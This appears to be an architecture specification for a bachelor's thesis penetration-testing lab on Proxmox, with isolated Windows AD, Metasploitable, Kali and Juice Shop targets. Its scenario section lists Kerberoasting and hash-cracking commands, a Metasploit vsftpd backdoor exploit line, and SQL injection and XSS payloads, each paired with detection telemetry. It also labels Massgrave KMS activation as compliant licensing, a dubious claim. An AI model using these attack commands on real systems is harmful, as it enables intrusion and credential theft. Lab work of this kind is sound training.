

# Bachelor's Thesis CyberLab Architecture Specification (VM 300–302 & CT 303)
**Lucrare de Licență · Enterprise Cyber Defense, Penetration Testing & Vulnerability Research Laboratory**

---

## 1. Executive Summary & Research Objectives

This document specifies the architecture, network segmentation, virtualization parameters, and security policies governing the dedicated **Bachelor's Thesis (Lucrare de Licență)** research infrastructure deployed on the primary Proxmox VE 9.2 hypervisor host (`192.168.1.132`, Node 1).

The laboratory environment is designed to deliver an isolated, realistic, and repeatable proving ground for:
1. **Offensive Security & Red Team Automation**: Automated scanning, enumeration, exploitation, and post-exploitation workflows executed from a dedicated Kali Linux workstation.
2. **Enterprise Active Directory Security**: Auditing domain controller hygiene, Group Policy Objects (GPOs), Kerberoasting, AS-REP roasting, and pass-the-hash attacks on Windows Server 2019 Standard.
3. **Multi-Vector Vulnerability Assessment**: Targeting known CVEs, legacy services, and unpatched daemons on a Linux Metasploitable target.
4. **Modern Web Application Security (OWASP Top 10)**: Assessing contemporary web flaws (SQL injection, broken access control, XSS, insecure deserialization) in a containerized OWASP Juice Shop target running on Alpine Linux LXC.
5. **Blue Team Telemetry & Detection Engineering**: Calibrating Wazuh SIEM 4.14 agent detection rules, Suricata IDS/IPS signatures, and Windows Sysmon Event IDs (EID 1, 3, 7, 8, 10, 13).

---

## 2. End-to-End Architectural Topology

The thesis laboratory utilizes a dual-tier isolation model. Workloads operate on **VLAN 30 (CyberLab)** and are attached to the isolated Linux bridge **`vmbr1`**, completely decoupled from the production home local area network (`vmbr0` / `192.168.1.0/24`).



---

## 3. Workload Profiles & Technical Specifications

### 3.1 VM 300: `windows-server-licenta` (Active Directory DS Lab)

| Parameter | Specification | Architectural Justification |
| :--- | :--- | :--- |
| **Proxmox VMID** | `300` | Reserved Bachelor Thesis namespace (300–399) |
| **Hostname / Name** | `windows-server-licenta` | Standardized thesis naming convention |
| **Operating System** | Windows Server 2019 Standard (x64) | Enterprise Active Directory Domain Services baseline |
| **Licensing Model** | Massgrave KMS / GVLK Automated Activation | Compliant academic research licensing |
| **vCPU Cores** | 4 Cores (`cpu: host`) | Accommodates AD DS, Kerberos authentication, and Sysmon event parsing |
| **Memory Allocation** | 8,192 MB (8 GB) dedicated | Peak allocation for DC initialization and index operations |
| **VirtIO Ballooning** | **4,096 MB (4 GB)** minimum | Returns up to 4 GB RAM to hypervisor when idle |
| **Storage (scsi0)** | 64 GB SSD (`local-lvm:vm-300-disk-0`) | Thin-provisioned with `discard=on` (TRIM support) and `ssd=1` |
| **SCSI Controller** | `virtio-scsi-single` | Low latency, dedicated IOThread for enterprise disk I/O |
| **Network (net0)** | `virtio=BC:24:11:D8:DA:9A,bridge=vmbr1,tag=30` | L2 isolated bridge with Proxmox hardware firewall active |
| **IP Configuration** | `192.168.30.100/24` (Static) | CyberLab subnet |
| **Installed Roles** | AD DS, DNS Server, GPO Manager, KMS client | Full enterprise domain testing environment |
| **Host Autostart** | `onboot: 0` | On-demand activation; 0 MB idle host RAM consumption |

---

### 3.2 VM 301: `metasploitable-licenta` (Linux Vulnerability Proving Ground)

| Parameter | Specification | Architectural Justification |
| :--- | :--- | :--- |
| **Proxmox VMID** | `301` | Dedicated thesis target ID |
| **Hostname / Name** | `metasploitable-licenta` | Canonical intentionally vulnerable target |
| **Operating System** | Metasploitable Linux Target (Ubuntu derivative) | Proving ground for CVEs, default creds, and buffer overflows |
| **vCPU Cores** | 2 Cores (`cpu: x86-64-v2-AES`) | Balanced CPU for concurrent service handling |
| **Memory Allocation** | 2,048 MB (2 GB) dedicated | Adequate footprint for multiple legacy daemons |
| **VirtIO Ballooning** | **1,024 MB (1 GB)** minimum | Reclaims 1 GB RAM dynamically |
| **Storage (scsi0)** | 20 GB SSD (`local-lvm:vm-301-disk-0`) | Thin-provisioned with `discard=on,ssd=1` |
| **Network (net0)** | `virtio=BC:24:11:A4:6B:8E,bridge=vmbr1,tag=30` | Quarantined on isolated bridge `vmbr1` |
| **IP Configuration** | `192.168.30.101/24` (Static) | CyberLab subnet |
| **Exposed Services** | FTP (:21), SSH (:22), Telnet (:23), HTTP (:80), Samba (:445), MySQL (:3306) | Rich attack surface for automated red team scripts |
| **Host Autostart** | `onboot: 0` | Zero idle baseline overhead |

---

### 3.3 VM 302: `kali-licenta` (Red Team & Offensive Workstation)

| Parameter | Specification | Architectural Justification |
| :--- | :--- | :--- |
| **Proxmox VMID** | `302` | Red Team offensive operator workstation |
| **Hostname / Name** | `kali-licenta` | Dedicated offensive testing environment |
| **Operating System** | Kali Linux Rolling (Debian-based x86_64) | Industry-standard offensive security distribution |
| **Installer Media** | `local:iso/kali-linux-2026.2-installer-netinst-amd64.iso` | Official Kali netinstaller image (743 MB) |
| **vCPU Cores** | 2 Cores (`cpu: host`) | Hardware passthrough virtualization for tool efficiency |
| **Memory Allocation** | 4,096 MB (4 GB) dedicated | Handles memory-intensive scanners (Burp Suite, Metasploit) |
| **VirtIO Ballooning** | **2,048 MB (2 GB)** minimum | Automatically frees 2 GB back to Proxmox when idle |
| **Storage (scsi0)** | 30 GB SSD (`local-lvm:vm-302-disk-0`) | Space for toolchains, wordlists (SecLists), and artifact logs |
| **Network (net0)** | `virtio=BC:24:11:2D:9C:28,bridge=vmbr1,tag=30` | Directly connected to the target network on `vmbr1` |
| **IP Configuration** | `192.168.30.102/24` (Static) | CyberLab subnet |
| **Pre-installed Tools** | Nmap, Metasploit, Burp Suite, CrackMapExec, Impacket, BloodHound, ffuf | Complete red team toolchain |
| **Host Autostart** | `onboot: 0` | Preserves RAM on Node 1 when labs are not in session |

---

### 3.4 CT 303: `owasp-licenta` (OWASP Juice Shop / DVWA Container)

| Parameter | Specification | Architectural Justification |
| :--- | :--- | :--- |
| **Proxmox VMID** | `303` | Lightweight containerized target ID |
| **Hostname / Name** | `owasp-licenta` | Web application security proving ground |
| **Container Runtime** | Unprivileged Alpine Linux 3.24 LXC | Minimal attack surface, ultra-low resource usage |
| **OS Template** | `local:vztmpl/alpine-3.24-default_20260714_amd64.tar.xz` | Official tested Proxmox Alpine appliance (3.3 MB archive) |
| **vCPU Cores** | 2 Cores | Fast response for web application fuzzing |
| **Memory Allocation** | 512 MB RAM, 256 MB swap | Extremely compact footprint |
| **Storage (rootfs)** | 8 GB NVMe (`local-lvm:vm-303-disk-0`) | Thin-provisioned container rootfs |
| **LXC Features** | `nesting=1` | **Mandatory**: Enables Docker daemon execution inside LXC |
| **Network (net0)** | `eth0,bridge=vmbr1,ip=192.168.30.103/24,gw=192.168.1.1,tag=30` | Quarantined on `vmbr1` / VLAN 30 |
| **Container Engine** | Docker & Docker Compose (`apk add docker docker-compose`) | Standard container orchestrator |
| **Primary Workload** | OWASP Juice Shop (`bkimminich/juice-shop:v17.1.1` on `:3000`) | Complete OWASP Top 10 2021 vulnerability coverage |
| **Fallback Target** | DVWA (`vulnerables/web-dvwa` on `:80`) | Classic PHP/MySQL web application vulnerability target |
| **Host Autostart** | `onboot: 0` | Zero idle memory consumption |

---

## 4. Network Isolation & Security Architecture

### 4.1 Linux Bridge Segregation (`vmbr0` vs `vmbr1`)
- **`vmbr0` (Production Bridge)**:
  - Attached to physical NIC `nic0`.
  - Serves home LAN traffic (`192.168.1.0/24`), DMZ, and primary management interface (`192.168.1.132:8006`).
- **`vmbr1` (Quarantined CyberLab Bridge)**:
  - Dedicated virtual bridge created in `/etc/network/interfaces` without any physical network interfaces assigned.
  - Guarantees **hardware-level air-gapping** from local physical devices.
  - Exploits, ARP spoofing, broadcast poisoning (Responder), and reverse shells executed on `vmbr1` **cannot leak** to external hardware or the home LAN.

### 4.2 Inter-VLAN Firewall Matrix (VLAN 30 CyberLab)

```
+-------------------+--------------------+------------------------+----------+-------------------+
| Source Subnet     | Destination Subnet | Ports / Protocols      | Action   | Security Purpose  |
+-------------------+--------------------+------------------------+----------+-------------------+
| VLAN 30 (CyberLab)| VLAN 10 (Mgmt)     | ANY                    | DROP     | Quarantine        |
| VLAN 30 (CyberLab)| VLAN 20 (Core)     | ANY                    | DROP     | Quarantine        |
| VLAN 30 (CyberLab)| WAN (Internet)     | ANY                    | DROP     | Zero Exploit Leak |
| VLAN 10 (Mgmt)    | VLAN 30 (CyberLab) | SSH (22), RDP (3389)   | PASS     | Admin Management  |
| VM 302 (Kali)     | VM 300, 301, CT303 | ANY (VLAN 30 Internal) | PASS     | Lab Exploitation  |
+-------------------+--------------------+------------------------+----------+-------------------+
```

---

## 5. Offensive & Defensive Laboratory Research Scenarios

### Scenario 1: Active Directory Domain Escalation (VM 302 → VM 300)
- **Objective**: Identify misconfigurations, perform Kerberoasting, and extract service account TGS tickets.
- **Workflow**:
  1. `crackmapexec smb 192.168.30.100 -u '' -p '' --shares` — Anonymous SMB inspection.
  2. `bloodhound-python -c All -u Researcher -p 'LabPassword123!' -d win2019.lan -dc 192.168.30.100` — Domain graph mapping.
  3. `GetUserSPNs.py win2019.lan/Researcher:LabPassword123! -request` — Request service ticket hashes.
  4. `hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt` — Offline password cracking.
- **Detection Telemetry**: Windows Security Log Event ID 4769 (A Kerberos service ticket was requested with RC4-HMAC encryption).

### Scenario 2: Vulnerability Exploitation & Shell Acquisition (VM 302 → VM 301)
- **Objective**: Exploit vulnerable daemon services and establish root persistence.
- **Workflow**:
  1. `nmap -sV -sC -T4 -p- 192.168.30.101 -oA /tmp/nmap_metasploitable` — Comprehensive port enumeration.
  2. Identification of VSFTPD v2.3.4 backdoor (`Port 21/TCP`) or Samba `usermap script` CVE-2007-2447.
  3. Metasploit execution:
     ```bash
     msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOSTS 192.168.30.101; exploit"
     ```
- **Detection Telemetry**: Suricata rule alert `ET EXPLOIT VSFTPD Backdoor Inbound Connection`.

### Scenario 3: OWASP Top 10 Web Exploitation (VM 302 → CT 303)
- **Objective**: Identify and exploit modern web vulnerabilities in OWASP Juice Shop.
- **Workflow**:
  1. Burp Suite proxy configured on port 8080.
  2. SQL Injection in product search field: `' OR 1=1--`.
  3. Broken Object Level Authorization (BOLA) targeting basket manipulation via API `GET /rest/basket/:id`.
  4. Cross-Site Scripting (Stored XSS) in user profile comments: `<iframe src="javascript:alert(1)">`.
- **Detection Telemetry**: Container reverse proxy access logs and Wazuh container audit daemon tracking container process spawning.

---

## 6. Resource Efficiency & Dynamic Memory Tuning

Node 1 operates with 12 GB physical DDR4 RAM. The thesis laboratory achieves complete coexistence with production services through strict memory controls:

```
[ Idle State (Labs Inactive) ]
Host Baseline: ~3.2 GB consumed by core microservices & OPNsense
Thesis Lab Overhead: 0 MB (all targets configured with onboot: 0)
Remaining Host RAM Available: ~8.8 GB (73.3% headroom)

[ Active Research Session (All Targets Running) ]
VM 300 (Windows Server): 8,192 MB dedicated (Dynamically balloons down to 4,096 MB)
VM 301 (Metasploitable): 2,048 MB dedicated (Dynamically balloons down to 1,024 MB)
VM 302 (Kali Linux):     4,096 MB dedicated (Dynamically balloons down to 2,048 MB)
CT 303 (OWASP Juice):      512 MB fixed
Total Theoretical Max: 14,848 MB
Total Realistic Ballooned Usage: 7,680 MB
Host ZRAM Compressed Swap (/dev/zram0, lz4): 6.0 GB compressed in-memory buffer
```

VirtIO ballooning continuously reclaims unneeded guest operating system cache pages, ensuring the physical 12 GB memory ceiling is never exceeded.

---

## 7. Declarative GitOps Architecture

All thesis infrastructure components are declared in the codebase:
- **Terraform Hypervisor Provisioning**: [terraform/licenta.tf](file:///C:/Users/Administrator/Desktop/dev/datacenter/terraform/licenta.tf)
- **Ansible Fleet Inventory**: [ansible/inventories/homelab/hosts.yml](file:///C:/Users/Administrator/Desktop/dev/datacenter/ansible/inventories/homelab/hosts.yml)
- **QEMU & LXC Configuration Templates**: [services/x64/](file:///C:/Users/Administrator/Desktop/dev/datacenter/services/x64/)
  - `services/x64/windows-server-licenta/300.conf`
  - `services/x64/metasploitable-licenta/301.conf`
  - `services/x64/kali-licenta/302.conf`
  - `services/x64/owasp-licenta/303.conf`
- **Containerized Application Manifest**: [services/x64/owasp-licenta/docker-compose.yml](file:///C:/Users/Administrator/Desktop/dev/datacenter/services/x64/owasp-licenta/docker-compose.yml)
